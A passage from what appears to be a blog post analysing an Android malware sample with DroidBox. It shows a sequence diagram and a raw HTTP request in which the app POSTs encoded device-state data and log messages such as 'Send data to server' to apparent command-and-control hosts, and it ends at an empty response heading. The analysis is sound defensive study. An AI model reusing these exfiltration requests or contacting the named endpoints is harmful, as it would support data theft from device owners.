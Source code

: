 

## Requests sequence

Since I was not able to get the full contents of the POST/GET requests (and their equivalent responses), I had to rely on the information found [here](http://www.apk-analyzer.net/analysis/646/3752/0/html). Below is a short sequence diagramm describing the general process of the communication. Keep in mind that the sequence only tries to give you a short overview of the data exchange between the process and the webserver. 


```
%%seqdiag
# <!-- collapse=True -->
seqdiag {
  application  -> citroen-club.ch [label = "POST /images/1.php HTTP/1.1"];
  application <-- citroen-club.ch [label = "HTTP/1.1 406 Not Acceptable", leftnote= ""];
  application --> best-invest-int.com [label = "POST /gallery/3.php HTTP/1.1", note = "POST data=U2ltU3RhdGUgPSBOT1QgUkVBRFkgCg%3D%3D%0A&rid=25"];
  application <-- best-invest-int.com [label = "HTTP/1.1 403 Forbidden"];
  application --> best-invest-int.com [label = "POST /gallery/4.php HTTP/1.1", note = "POST data=U2ltU3RhdGUgPSBOT1QgUkVBRFkgCg%3D%3D%0A&LogCode=CONF&LogText=Get+config+data+from+server"];
  application <-- best-invest-int.com [label = "HTTP/1.1 403 Forbidden"];
  application --> best-invest-int.com [label = "POST /gallery/4.php HTTP/1.1", note = "POST data=U2ltU3RhdGUgPSBOT1QgUkVBRFkgCg%3D%3D%0A&LogCode=DATA&LogText=Send+data+to+server&"];
  application <-- best-invest-int.com [label = "..."];
}

```


    
![png](/posts/img/2014/android-dynamic-code-analysis-mastering-droidbox/output_44_0.png)
    


And now a complete request/response pair:

**Request**:

~~~ 
POST /gallery/4.php HTTP/1.1
User-agent: Mozilla/4.76 (Java; U;Linux i686 3.0.36-android-x86-eeepc+; ru; The Android Project 0)
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Pragma: no-cache
Host: best-invest-int.com
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 86
Data Raw: 64 61 74 61 3d 55 32 6c 74 55 33 52 68 64 47 55 67 50 53 42 4f 54 31 51 67 55 6b 56 42 52 46 6b 67 43 67 25 33 44 25 33 44 25 30 41 26 4c 6f 67 43 6f 64 65 3d 43 4f 4e 46 26 4c 6f 67 54 65 78 74 3d 43 68 65 63 6b 2b 70 75 6c 6c 2b 6f 66 66 2b 75 72 6c 73 26 
Data Ascii: data=U2ltU3RhdGUgPSBOT1QgUkVBRFkgCg%3D%3D%0A&LogCode=CONF&LogText=Check+pull+off+urls&
~~~

**Response**:
